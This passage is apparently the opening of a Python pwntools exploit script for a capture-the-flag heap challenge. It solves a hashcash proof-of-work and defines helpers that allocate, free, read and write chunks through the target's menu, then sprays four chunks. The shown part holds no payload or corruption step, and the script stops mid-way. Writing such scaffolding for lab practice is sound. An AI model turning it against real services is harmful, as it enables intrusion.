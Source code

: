 ```py  
   log.warning("~-~ Solving HashCa$H ~-~")  
   out = subprocess.check_output(hashcash.split(b' '))  
   io.sendline(out[:-1])

def print_storage():  
   s = io.recvuntil(b'Storage: ')  
   print(s + io.recvuntil(b'\n'))

def alloc(size):  
   assert size < 10000, "alloc fail: 10k is max alloc?"  
   io.recvuntil(b'choice?')  
   io.sendline(b'1')  
   io.recvuntil(b'size?')  
   io.sendline(str(size).encode())  
   print_storage()

def drop(idx):  
   io.recvuntil(b'choice?')  
   io.sendline(b'2')  
   io.recvuntil(b'index?')  
   io.sendline(str(idx).encode())  
   print_storage()

def read(idx):  
   io.recvuntil(b'choice?')  
   io.sendline(b'3')  
   io.recvuntil(b'index?')  
   io.sendline(str(idx).encode())  
   io.recvuntil(b'\x1b[?25h\x1b[?25l')  # TODO/FIXME: Some crap we need to
receive first  
   data = io.recvuntil(context.newline, drop=True)  
   #print(data)  
   print_storage()  
   return unhex(data)

def write(idx, data):  
   io.recvuntil(b'choice?')  
   io.sendline(b'4')  
   io.recvuntil(b'index?')  
   io.sendline(str(idx).encode())  
   io.recvuntil(b'data?')  
   io.send(hexlify(data) + b'\n')  
   print_storage()

def quit():  
   io.recvuntil(b'choice?')  
   io.sendline(b'5')

def w(idx, data):  
   alloc(len(data))  
   write(idx, data)

for i in range(4):  
   w(i, bytes([ord('A')+i])*0x20)

#drop(5)

"""  
io.recvuntil(b'choice?')  
io.sendline(b'4')  
io.recvuntil(b'index?')  
io.sendline(str('0').encode())  
io.recvuntil(b'data?')  
```